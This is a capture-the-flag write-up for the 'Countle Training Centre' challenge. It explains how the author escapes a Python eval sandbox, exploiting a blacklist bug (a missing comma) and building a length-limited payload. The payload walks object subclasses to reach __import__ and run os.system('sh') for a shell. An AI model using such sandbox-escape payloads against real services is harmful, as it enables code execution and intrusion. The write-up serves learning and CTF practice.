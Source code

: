 ## Countle Training Centre

Category: Misc

<img src="images/challenge.png" width=400>

In the challenge, we must connect to a server and play the countle game.  

In the source file, it appears that after winning 999999 consecutive rounds, the flag would be printed. However, due to the rate limit enforced, this would take roughly 27 hours, and automation is hence not a viable option. 

<img src="images/source.png" width=600>

Our next best option is to exploit the `eval` call that evaluates our countle expression to give ourselves a shell.  

<img src="images/eval.png" width=600>
<img src="images/blacklist.png" width=600>

From the above, we can see that `eval` is being run in a sandboxed environment, where the `FLAG` variable cannot be referenced, and that most pyjail exploit functions have been blacklisted. Our payload is also restricted to a maximum length of 160.  

Another important detail worth noting is that `builtins` and `cat` are not actually blacklisted, as the list is missing a comma to separate them, so Python's implicit string concatentation causes both keywords to be excluded from the blacklist.


Naturally, the first step would be to escape our sandboxed environment to access normally accessible functions. The code snippet below exploits the `tuple` class to access all subclasses inheriting from the `object` class.  

```python
().__class__.__base__.__subclasses__()
```

The class we are most interested in would be the `warnings.catch_warnings` class, as its module builtins contains the `__import__` method, which we will need to gain access to `os` later on.  

As the Python versions on our system and the server may differ, we can dynamically search for the class through name filtering.

```python
[x for x in ().__class__.__base__.__subclasses__() if "catch" in x.__name__][0]
```

After instantiating an instance of our class, we can then import the `os` class and invoke a shell as shown below, bypassing the blacklist through string concatenations.  

```python
([x for x in ().__class__.__base__.__subclasses__() if "catch" in x.__name__][0]()._module.__builtins__["__impor"+"t__"]("o"+"s")).__getattribute__("syste"+"m")("s"+"h")
```

However, we now face the issue of our payload exceeding the length cap (167 characters).  

This can fixed with the following:
- shortening the term used to filter class names
- removing unncessary spaces
- removing addition signs through implicit string concatenations

Putting it all together, we shrink the payload down to 159 characters.  

```python
([x for x in().__class__.__base__.__subclasses__()if"cat"in x.__name__][0]()._module.__builtins__["__impor""t__"]("o""s")).__getattribute__("syste""m")("s""h")
```

After starting the challenge and entering our payload, we can finally spawn a shell and view the actual flag in the server source code.    

<img src="images/flag.png" width=600>